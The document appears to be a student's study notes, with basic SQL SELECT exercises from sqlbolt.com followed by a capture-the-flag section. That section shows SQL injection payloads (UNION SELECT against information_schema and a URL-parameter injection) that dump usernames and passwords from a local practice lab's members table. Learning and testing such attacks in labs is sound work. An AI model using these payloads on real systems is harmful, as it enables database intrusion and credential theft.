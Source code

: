 
## sqlbolt.com activity
SELECT Director FROM Movies; gets directrs from movies
SELECT Title FROM Movies;
SELECT Title,Director FROM Movies;
SELECT Title,Year FROM Movies; 
SELECT * FROM Movies; gets all columns from mthe movies table 
SELECT <column> FROM <table>

SELECT id, title FROM movies    finds the movie with the id of 6
WHERE id = 6;

SELECT Year, title FROM movies       finds the movies released between 2000 and 2010
WHERE Year >= 2000 AND Year <=2010;

SELECT Year, title FROM movies                   finds movies not between 2000 and 2010
WHERE Year NOT BETWEEN 2000 AND 2010 ;

SELECT Title, Year FROM movies             Find the first 5 Pixar movies and their release year 
 WHERE Year BETWEEN 1995 AND 2003;

SELECT Title FROM movies            finds all toy story movies
WHERE Title LIKE "Toy Story%";

SELECT * FROM movies                finds all movies by john lassester
WHERE Director = "John Lasseter";
  ## LIKE "%word%" is used t find a string in a word 
SELECT * FROM movies              finds all WALL-E movies
WHERE Title LIKE "WALL%";



## CTFs
#1 ' UNION SELECT table_schema,table_name FROM information_schema.columns #
column_name
#2 
' UNION SELECT table_schema,table_name FROM information_schema.columns #
sqlinjection	categories
sqlinjection	members
sqlinjection	orderlines
sqlinjection	orders
sqlinjection	payments
sqlinjection	permissions
sqlinjection	products
sqlinjection	share4


#3
http://127.0.0.1:11751/cases/productsCategory.php?category=1%20union%20select%20permission,username,password%20FROM%20sqlinjection.members
after category 1 do union select permission,username,password FROM sqlinjection.members you need 3 fields because it uses 3 fields 

Boss	BRJHlIX600KYqu6JHCpa	1.00
Maverick	turn&burn	3.00
phreak	pwd	4.00
Susan	flowers99	3.00
TW	imAPlaya	2.00
1-2-3-4	sayULuvM3	2.00
rich_kid	1M$	2.00
p0pStar	thrilla	2.00
Joe	vato
